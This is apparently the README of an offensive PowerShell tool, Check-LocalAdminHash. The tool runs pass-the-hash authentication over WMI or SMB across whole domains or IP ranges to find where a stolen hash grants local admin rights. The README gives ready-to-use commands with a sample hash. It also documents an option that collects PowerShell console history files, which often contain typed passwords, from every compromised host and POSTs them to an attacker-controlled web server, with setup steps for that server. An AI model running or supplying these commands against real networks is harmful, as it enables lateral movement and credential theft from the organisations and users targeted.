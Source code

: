 # Check-LocalAdminHash
Check-LocalAdminHash is a PowerShell tool that attempts to authenticate to multiple hosts over either WMI or SMB using a password hash to determine if the provided credential is a local administrator. It's useful if you obtain a password hash for a user and want to see where they are local admin on a network. It is essentially a Frankenstein of two of my favorite tools along with some of my own code. It utilizes Kevin Robertson's (@kevin_robertson) Invoke-TheHash project for the credential checking portion. Additionally, the script utilizes modules from PowerView by Will Schroeder (@harmj0y) and Matt Graeber (@mattifestation) to enumerate domain computers to find targets for testing admin access against. 

![alt text](http://www.dafthack.com/Check-LocalAdminHash-Example.jpg)

The reason this script even exists is because on an assessment I wanted to gather all the PowerShell console history files (PSReadline) from every system on the network. The PSReadline console history is essentially the PowerShell version of bash history. It can include so many interesting things that people type into their terminals including passwords. So, included in this script is an option to exfiltrate all the PSReadline files as well. There is a bit of setup for this. See the end of the Readme for setup.

## Examples


### Checking Local Admin Hash Against All Hosts Over WMI
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems
```

### Exfiltrate All PSReadline Console History Files
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI. It then attempts to locate PowerShell console history files (PSReadline) for each profile on every system and then POST's them to a web server. See the bottom of the Readme for server setup.

```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems -ExfilPSReadline
```

### Using A CIDR Range
This command will use the provided CIDR range to generate a target list and then attempt to authenticate to each one using the local user 'PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -CIDR 192.168.1.0/24
```


### Using Target List and SMB and Output to File
This command will use the provided targetlist and attempt to authenticate to each host using the local user 'PossibleAdminUser' and a password hash over SMB.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -TargetList C:\temp\targetlist.txt -Protocol SMB | Out-File -Encoding Ascii C:\temp\local-admin-systems.txt
```


### Single Target
This command attempts to perform a local authentication for the user Administrator against the system 192.168.0.16 over SMB.
```PowerShell
Check-LocalAdminHash -TargetSystem 192.168.0.16 -Username Administrato -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -Protocol SMB
```

### Check-LocalAdminHash Options
```
Username - The Username for attempting authentication.
PasswordHash - Password hash of the user.
TargetSystem - Single hostname or IP for authentication attempt.
TargetList - A list of hosts to scan one per line
AllSystems - A switch that when enabled utilizes PowerView modules to enumerate all domain systems. This list is then used to check local admin access.
Domain - This is the domain that PowerView will utilize for discovering systems.
UserDomain - This is the user's domain to authenticate to each system with. Don't use this flag if using a local cred instead of domain cred.
Protocol - This is the setting for whether to check the hash using WMI or SMB. Default is 'WMI' but set it to 'SMB' to check that instead.
CIDR - Specify a CIDR form network range such as 192.168.0.0/24
Threads - Defaults to 5 threads. (I've run into some odd issues setting threads more than 15 with some results not coming back.)
ExfilPSReadline - For each system where auth is successful it runs a PowerShell command to locate PSReadLine console history files (PowerShell command history) and then POSTS them to a web server. See the Readme for server setup. 
```

## PSReadline Exfiltration Setup
**This is your warning** that you are about to setup an Internet-facing server that will accept file uploads. Typically, this is a very bad thing to do. So definitely take precautions when doing this. I would recommend **locking down firewall rules** so that only the IP that will be uploading PSReadline files can hit the web server. Also, while we are on the topic of security, this will work just fine with an HTTPS connection so setup your domain and cert so that the PSReadline files are sent encrypted over the network. You have been warned...

  * Setup a server wherever you would like the files to be sent. This server must be reachable over HTTP/HTTPS from each system.

  * Copy the index.php script from this repo and put it in /index.php in the web root (/var/www/html) on your web server.

  * Make an uploads directory

  ``mkdir /var/www/html/uploads
``

  * Modify the permissions of this directory 

  ``chmod 0777 /var/www/html/uploads
``

  * Make sure php is installed

  ``apt-get install php
``

  * Restart Apache
  
  ``service apache2 restart
``

  * In the Check-LocalAdminHash.ps1 script itself scroll down to the "Gen-EncodedUploadScript" function and modify the "$Url" variable right under "$UnencodedCommand". Point it at your web server index.php page. I haven't figured out how to pass the UploadUrl variable into that section of the code that ends up getting encoded and run on target systems so hardcode it for now.

Now when you run Check-LocalAdminHash with the -ExfilPSReadline flag it should attempt to POST each PSReadline (if there are any) to your webserver.

![alt text](http://www.dafthack.com/powershell-history-results.jpg)

## Credits
Check-LocalAdminHash is pretty much a Frankenstein of two of my favorite tools, PowerView and Invoke-TheHash. 95% of the code is from those two tools. So the credit goes to Kevin Robertson (@kevin_robertson) for Invoke-TheHash, and credit goes to Will Schroeder (@harmj0y), Matt Graeber (@mattifestation) (and anyone else who worked on PowerView). Without those two tools this script wouldn't exist. Also shoutout to Steve Borosh (@424f424f) for help with the threading and just being an all around awesome dude.

Invoke-TheHash - https://github.com/Kevin-Robertson/Invoke-TheHash

PowerView - https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
